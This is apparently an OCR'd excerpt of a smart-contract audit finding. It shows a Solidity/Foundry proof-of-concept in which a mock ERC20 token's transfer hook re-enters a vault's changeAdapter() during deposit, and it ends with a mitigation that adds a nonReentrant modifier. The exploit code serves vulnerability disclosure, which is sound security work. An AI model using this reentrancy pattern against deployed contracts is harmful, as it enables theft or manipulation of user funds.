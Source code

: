 ```solidity
    // emit ChangedAdapter(IERC4626(address(newAdapter)), IERC4626(address(newProposedAdapter)));
    // console.log("\n===== Called changeAdapter() =====");
    // newVault.changeAdapter();

    // Hooked call
    vm.startPrank(bob);
    vm.expectEmit(false, false, false, true, address(newVault));
    emit ChangedAdapter(IERC4626(address(newAdapter)), IERC4626(address(newProposedAdapter)));
    console.log("\n===== Called reentrant deposit() =====");
    newVault.deposit(10 ether, bob);

    console.log("\n===== Called takeManagementAndPerformanceFees() =====");
    newVault.takeManagementAndPerformanceFees();
  }

 contract MockERCHook is MockERC20 {
   Vault public vault;
   uint256 internal timesEntered = 0;
   constructor(
     string memory name_,
     string memory symbol_,
     uint8 decimals_
   ) MockERC20(name_, symbol_, decimals_) {  }

   function _beforeTokenTransfer(address , address , uint256 ) internal override {
     if(timesEntered == 0){
       try vault.changeAdapter() { // -------- STRUCTURE USED FOR SIMPLICITY
         timesEntered++;
       } catch {}
     }
   }

   function mockSetVault(Vault _vault) external {
     vault = _vault;
   }

 }
```

## Tools Used
Manual Review

## Recommended Mitigation Steps
Consider adding the `nonReentrant` modifier to the `changeAdapter()` function. 
